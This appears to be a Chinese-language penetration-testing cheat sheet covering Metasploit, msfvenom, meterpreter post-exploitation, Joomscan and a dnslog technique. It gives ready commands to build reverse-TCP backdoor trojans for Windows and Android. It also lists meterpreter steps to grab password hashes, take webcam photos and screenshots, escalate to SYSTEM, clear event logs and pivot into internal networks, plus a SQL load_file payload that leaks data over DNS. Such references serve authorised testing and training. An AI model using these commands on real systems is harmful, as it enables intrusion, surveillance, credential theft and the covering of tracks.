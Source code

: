 综合框架
----------------------------------------

metasploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Terminal下msf常用命令简介
	+ msf数据库初始化
		``msfdb init``
	+ msf更新
		``apt install metasploit framework``
	+ 多平台攻击载荷生成器
		``msfvenom``
	+ 将汇编指令转换成为对应的16进制机器码
		``msf-nasm_shell``
	+ 打开msf终端
		``msfconsole``
- msf终端下常用命令简介
	+ 查看数msf据库连接状态,连接数据库能够优化搜索等过程
		``db_status`` 
	+ 重建缓存，将模块等索引重新存入数据库
		``db_rebuild_cache``
	+ 调用nmap扫描，并将扫描结果存入数据库
		``db_nmap``
	+ 显示命令的帮助信息
		``help [db_connect]``
	+ 搜索含有关键字的模块
		``search [module]``
	+ 选择模块
		``use [module]``
	+ 显示该模块支持的payload
		``show payload``
	+ 显示该模块需要设置的参数(其中required为no的表示不是必须的参数)
		``show options``
	+ 如果觉得show命令显示的不够完整可以直接输入info查看详细详细
		``info``
	+ 使用模块后，设置模块所需要的参数的值(对应使用unset取消设置的值)
		``set [opt]``
	+ 设置全局参数，对于ip之类的参数可以设置为全局，当切换模块后就不需要再次设置ip参数(对应使用unsetg取消设置)
		``setg [opt]``
	+ 返回上级状态
		``back``
	+ 两个命令都表示运行攻击模块
		``exploit/run``
	+ 查看当前连接的会话
		``sessions``
- 使用msfvenom生成木马文件
	+ 查看可使用的载荷/编码器/nops/所有列表
		``msfvenom -l payload/encoders/nops/all``
	+ 生成exe木马
		``msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.16.99 lport=4444 -a x64 -f exe -o backdoor_raw.exe`` 
	+ 生成apk木马
		``msfvenom -p android/meterpreter_reverse_tcp lhost=192.168.16.99 lport=4444 -o backdoor_raw.apk``
- meterpreter后渗透利用
	+ 打印当前工作目录：pwd
	+ 查看系统信息：sysinfo
	+ 查看当前目标机上运行的进程列表和pid：ps
	+ 调用相机拍摄照片：webcam_snap
	+ 运行vnc远程查看屏幕：run vnc
	+ 远程桌面3389（windows）：run post/windows/manage/enable_rdp
	+ 截取目标主机当前屏幕​：screenshot
	+ 获取当前权限的用户id：getuid
	+ 获取system权限：getsystem
	+ 获取用户名与hash口令：hashdump
	+ 获取目标主机shell(windows环境下中文乱码的解决办法:chcp 65001）：shell
	+ 退出shell模式，返回到meterpreter：Ctrl+Z
	+ 上传一个文件：upload
	+ 下载一个文件：download
	+ 执行目标系统中的文件(-f 指定文件，-i执行可交互模式，-H隐藏窗口)：excute
	+ 清除日志：clearev
	+ 将Meterpreter放入后台(使用session -i重新连接到会话)：background
- meterpreter内网渗透
	+ 获取目标主机上的子网状态：run get_local_subnets
	+ 使用autoroute模块添加到达内网的路由经session 1转发：run autoroute -s 169.254.0.0/16 1
	+ 查看当前的路由表：run autoroute -p
	+ 扫描内网存活主机：db_nmap
	+ 将目标主机192.168.16.59的3389转发到本地主机的7070端口：portfwd add -l 7070 -r 192.168.16.59 -p 3389
	+ 端口转发成功后就可以从本地端口连接rdp：rdesktop 127.0.0.1:7070

Joomscan
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 介绍
	+ Joomla security scanner可以检测Joomla整站程序搭建的网站是否存在文件包含、sql注入、命令执行等漏洞。
- 使用方法
	+ 默认检测：``joomscan -u www.example.com``
	+ 组件检测：``joomscan -u www.example.com –ec``
	+ 设置cookie：``joomscan -u www.example.com --cookie "test=demo;"``
	+ 随机UA：``joomscan -u www.example.com -r``
	+ 设置代理：``joomscan -u www.example.com --proxy http://127.0.0.1:8080``
	
dnslog
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 利用场景
	+ Sql-Blind
	+ RCE
	+ SSRF
	+ RFI（Remote File Inclusion）
- 原理
	将dnslog平台中的特有字段payload带入目标发起dns请求，通过dns解析将请求后的关键信息组合成新的三级域名带出，在ns服务器的dns日志中显示出来。
- 限制
	load_file函数在Linux下是无法用来做dnslog攻击的，因为Linux没有UNC路径(UNC路径就是类似\\softer这样的形式的网络路径)。
- 示例
	+ ``select load_file('\\\\',version(),'.dnslog地址')``

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- AWVS
- openvas
- nessus
- `PenTesters Framework(ptf) <https://github.com/trustedsec/ptf>`_
- katoolin
- `w3af <http://w3af.org/>`_
- `AutoSploit <https://github.com/NullArray/AutoSploit/>`_
- `skipfish <https://my.oschina.net/u/995648/blog/114321>`_
- `Arachni <http://www.arachni-scanner.com/>`_
- `Spiderfoot <https://github.com/smicallef/spiderfoot>`_
- `AZScanner <https://github.com/az0ne/AZScanner>`_
- `Fuxi <https://github.com/jeffzh3ng/Fuxi-Scanner>`_
- `vooki <https://www.vegabird.com/vooki/>`_
- `BadMod <https://github.com/MrSqar-Ye/BadMod>`_
- `xray <https://github.com/chaitin/xray>`_
- `x-scan <https://x-scan.apponic.com/>`_
